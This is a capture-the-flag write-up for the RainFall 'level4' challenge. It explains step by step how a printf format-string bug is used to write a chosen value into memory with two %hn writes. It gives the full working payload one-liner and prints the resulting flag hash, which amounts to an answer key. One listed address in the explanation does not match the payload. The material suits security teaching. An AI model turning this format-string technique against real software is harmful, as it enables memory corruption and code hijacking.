


1. This program is very close to the one in level3, but there are two important differences :

    - the `printf` function is called in a new function (p())
    - The number to be writtent in memory - and compared to obtain the flag - is much hier :  **0x1025544** (16,930,116 in decimal - way higher than the char limit in one printf call).


2. After disassembling the functions, we can draw the stack state at time of calling printf() :




3. Let's derive how we should build our string argument - remember which will be put in the buffer - so that the right number is writeen at the right address :

    - As the number of chars to  be written is too large, we will split it in two short ints (2 bytes), and we will use the `%hn` modifier to write each of them on two bytes. So we will first write `0x0102 bytes = 258 chars` followed by `0x5544 bytes = 21828 chars` at memory location `0x08049810`. *Note : always start with the lowest number, as we will have to retreive it from the 2nd number (remember ; in printf it should represent the number of bytes already written!)*

    - Here is basically what we want to achieve :

    

    - Here are the different parts of the string:
        * 0x08049812           --> First address where to write. **4 bytes**
        * 0x08149810           --> Second address where to write our 2 bytes. **4 bytes**
        * %250d                --> 258 - 8 bytes already written = 250 bytes to write
        * %12$hn               --> We ask to write a half-word (2 bytes) at address whose value is stored 12 * 4 = 48 bytes above the location on the stack of the first arg of printf - cf first schema above. This will be the beginning of our buffer => the first address written in the current string!
        * %21570d              --> 21828 - 258 bytes yet to be written for our last number
        * %13$hn               --> Write a half-word corresponding to the number of bytes written up to there, at 52 bytes above = the second address in the current string = buffer.


4. Find the flag :

    ```
    level4@RainFall:~$ (python -c 'print("\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d%12$hn%21570d%13$hn")') > /tmp/exploit
    level4@RainFall:~$ cat /tmp/exploit | ./level4
    ```
    
    output :
    ```
                                                                                                                                                                                                                                                                                   -1073744060
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
    ```